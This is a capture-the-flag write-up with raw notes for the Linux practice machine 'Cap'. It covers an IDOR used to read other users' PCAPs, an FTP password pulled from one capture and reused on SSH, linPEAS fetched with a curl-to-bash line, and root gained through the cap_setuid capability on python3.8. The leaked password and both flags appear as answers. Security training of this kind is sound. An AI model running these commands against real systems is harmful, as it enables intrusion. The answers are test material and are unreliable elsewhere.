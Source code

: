 # CAP Room

### Challenge Rating: Easy

**Challenge:**  
- Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 
 
- Target is a security dashboard web app that includes features like security snapshots (PCAPs), IP and network status, and user activity. The machine tests reconnaissance, web enumeration, IDOR (Insecure Direct Object Reference), network traffic analysis (PCAP/FTP), credential reuse, and Linux privilege escalation via binary capabilities.

**Skills:**  
- Network scanning (`nmap`, `rustscan`)  
- Web enumeration (`feroxbuster`, `dirb`)  
- Source code / HTML inspection (viewing page source, `robots.txt`)  
- Identifying and abusing IDORs (Insecure Direct Object References)  
- PCAP analysis (Wireshark) to extract credentials from application snapshots  
- Credential reuse (FTP → SSH)  
- Local enumeration and privilege escalation with `linPEAS`  
- Exploiting file capabilities (cap_setuid) using Python to gain root

**Notes:**  
- Target IP: `10.10.10.245`  
- Initial scans: `nmap` and `rustscan` → ports open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**.  
  - FTP: `vsftpd 3.0.3`  
  - SSH: `OpenSSH 8.2p1`  
  - Webserver: Gunicorn (possible HTTP Request Smuggling via Transfer-Encoding headers — noted but not exploited here)

- Visited the web app as user *Nathan*. Dashboard shows security events, failed logins, and port scans.  
- Hamburger menu has: Security Snapshot (5s PCAP + analysis), IP Config, Network Status.  
- Viewing page source revealed references to people named **Rashed** and **Ratul Hamba**; `robots.txt` gave nothing useful.

- Used `feroxbuster` / `dirb` to enumerate paths (found nothing new beyond known endpoints).  
- Discovered an **IDOR** in Security Snapshot URLs: security snapshot redirect uses `/[something]/[id]`.  
  - Question 2 answer: `data` (the `[something]` in the path is `data`)  
  - By changing the ID you can view other users' snapshots (Question 3: **yes** — can iterate IDs 0..10)

- Inspecting PCAP ID 40 in Wireshark (source `192.168.196.1` → dest `192.168.196.16`) revealed an FTP credential:  
  - `Buck3tH4TF0RM3!` — used to log into SSH as Nathan.

**Answers to challenge questions:**  
1. How many ports are open? **3**  
2. After running a "Security Snapshot", the redirect path uses what string for [something]? **`data`**  
3. Are you able to see other users' scans? **Yes** (IDOR; can iterate 0..10)  
4. What is the ID of the PCAP file that contains sensitive data? **0**  
5. Which application layer protocol in the pcap file can the sensitive data be found in? **FTP**  
6. We've collected Nathan's FTP password. On what other service does this password work? **SSH**  
7. user flag (from Nathan's account): **`35eaae15f1ef0f055e3b983eae63c5aa`**  
8. What is the full path to the binary on this machine that has special capabilities that can be abused to obtain root privileges? **`/usr/bin/python3.8`**

**Privilege escalation (linPEAS & capabilities):**  
- Setup and run `linpeas` by hosting it locally and `curl`ing it to the target:  
  ```bash
  # on attack box
  sudo python3 -m http.server 80

  # on target
  curl http://<OurIP>/linpeas.sh | bash
  ```
- linPEAS highlighted a binary with capabilities: `/usr/bin/python3.8` has `cap_setuid,cap_net_bind_service+eip`.  
  - `cap_setuid` allows changing UID (can set to 0/root).  
  - `cap_net_bind_service` allows binding privileged ports (<1024).  
- Abuse: start the python interpreter and escalate UID:
  ```python
  import os
  os.setuid(0)
  os.system("/bin/bash")
  ```
  Result: spawned shell as **root**.

**Root flag:**  
- Root flag found: **`f77870641aea641726ee29ee9879a5e4`**

**Takeaways:**  
- IDORs are low-hanging fruit — always test incrementing IDs and object identifiers.  
- PCAP snapshots in web apps are gold for leaking credentials — always inspect network captures (Wireshark).  
- Credential reuse across services (FTP → SSH) is a common real-world misconfiguration to abuse.  
- linPEAS saves time but always manually verify and understand findings (capabilities, SUIDs, cron jobs).  
- File capabilities (`cap_setuid`) can be as dangerous as setuid binaries if abused — never assume only SUIDs matter.

**Commands / tools referenced:**  
```bash
nmap -sC -sV -oN nmap_initial 10.10.10.245
rustscan -a 10.10.10.245 -r 1-65535
feroxbuster -u http://10.10.10.245 -w /usr/share/wordlists/...
dirb http://10.10.10.245 /usr/share/wordlists/...
ssh nathan@10.10.10.245 -p 22
sudo python3 -m http.server 80
curl http://<OurIP>/linpeas.sh | bash
# escalate inside python:
python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
## Original Notes:

<details>
ip:  10.10.10.245

we run nmap and rustscan

while they run we try the website. The site is a seucirty dashboard, logged in as a man named Nathan, on here we see security events, failed login attempts, and port scans (unique IPs).

the hamburger menu has a securit snapshot (5 second PCAP + anaysis), ip config, and network status

when we view the main page source, we see that they are using an outdate browser, and to update bia browsehappy.com

robots.txt did nothing

rustscan and nmap says that ports 22/tcp, 21/tcp and 80/tcp are open

port 21 is open ftp with vsftpd 3.0.3
port 22 ssh openSSH 8.2p1

couldn't find an exploit I want to use, the source didn't seem to have any info about passwords
we do see in the source people named Rashed and Ratul Hamba

using dirb to find urls / used feroxbuster too

the website is Gunicorn, looking for exploit. explot-db doens't have anything but myF5 does, it states:
Gunicorn  fails to properly validate Transfer-Encoding headers, leading to HTTP  Request Smuggling (HRS) vulnerabilities. By crafting requests with  conflicting Transfer-Encoding headers, attackers can bypass security  restrictions and access restricted endpoints. This issue is due to  Gunicorn's handling of Transfer-Encoding headers, where it incorrectly  processes requests with multiple, conflicting Transfer-Encoding headers,  treating them as chunked regardless of the final encoding specified.  This vulnerability allows for a range of attacks including cache  poisoning, session manipulation, and data exposure.</span></span></body></html>

so, let's see what we cna do here.bv

feroxbuster found what we already knew
so did dirb

i forgot, to look at the damn questions.

Question 1) how many ports are open : 3

2) After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]? :: answer = ‘data’

3) are you able to see other users scans?  yes, we can edit the url and go to data 0, 1, etc, up to our latest of 10

when we look at it in wireshark we see that no.40 with source ip of 192.168.196.1 and destination of 192.168.196.16, we see a password of "Buck3tH4TF0RM3!"
this allowed us to log into ssh
in the ssh, user.txt is a flag of “35eaae15f1ef0f055e3b983eae63c5aa”
4) What is the ID of the PCAP file that contains sensative data?  0

we have a IDOR: Insecure Direct Object Reference (IDOR) vulnerability is a type of broken access control where an application uses user-supplied input to directly access internal objects (like database records or files) without performing sufficient access control or authorization checks. Attackers can manipulate these direct references, such as changing a user ID or file name in a URL


5)  Which application layer protocol in the pcap file can the sensetive data be found in? FTP
it's ftp because we can look at hte wireshark protocol and see it's under ftp

6)We've managed to collect nathan's FTP password. On what other service does this password work? ssh

7) user flag

8) What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

out next task involves using linpeas, so to use linpeas we need to use the following script : 

we go to our linpeas dir, and run "sudo python3 -m http.server 80" - this opens the server for us to then use the command we need to run linpeas on the target machine

curl http://<OurIP>/linpeas.sh | bash

linpeas is said to be one of thsoe thigns that makes you look smarter than you are, so we need to really understand what it does. First off, linpeas is going to look for weaknesses, misconfigurations, etc. a defintion i found is:

linPEAS (part of the PEASS-ng suite) is an automated Linux enumeration script that searches a host for common misconfigurations, weak permissions, credentials, and other local privilege-escalation paths. It doesn’t “exploit” anything by default — it surfaces potential vectors (SUIDs, writable files, misconfigured services, cron jobs, weak sudo rules, exposed secrets, docker sockets, etc.) so you can investigate manually. Source & project page: PEASS-ng / linPEAS. 

bang! we're in. Linpeas is running. we used curl to get the info from our pc, and piped it into bash using | bash to run it

so , looking through the linpeas, i see we have Pkexec open, maybe try that, it allows us to run a command as anotehr user, maybe root?

besides that we have files with capabilites, and we see that python3.8 = cap_setuid, cap_net_bind_service+eip. It's highlighted yellow, so we know it's odd. doing some digging we see that python normally runs files without capabilities, and a pythong interpreter with cap_setuid + effective can be abused by local users to escalate privileges or bypass restrictions

don't try using pkexec and failing to log in, it reports the failure. fun times

we learned that the python program can escalate privilegas because it as authoritity to use sudo. the python binary has been granted special capabiulites. this will allow malicious scripts to be ran that normally require root. cap_setuid is a powerful capabiltiy that allows ap rocess to make arbitary chagnes to hte User ID UID including chaning a user to root (WOOT WOOT! Our way in!). an acceter could run a simple python script containg os.setuid(0) to gain full root
cap_net_bind_service+eip grants the ability to bind prilveged ports (any below 1024). the suffix of eip indicates that a capaility is et to effectivce, inherited and permitted. Thus allowing python web server to run on sntadard porst like 80 or 443. 
running /usr/bin/python3.8 we open python. Inside python we use:
import os
os.setuid(0)
os.system("/bin/bash")

import improts the os capabilites
we set our id
os.system("/bin/bash") opens a new shell as the id we made, so root!!!


9) Submit the flag located in root's home directory.  -- /usr/bin/python3.8
10) Submit the flag located in root's home directory. -- found teh root flag under root!
“f77870641aea641726ee29ee9879a5e4”
</details>
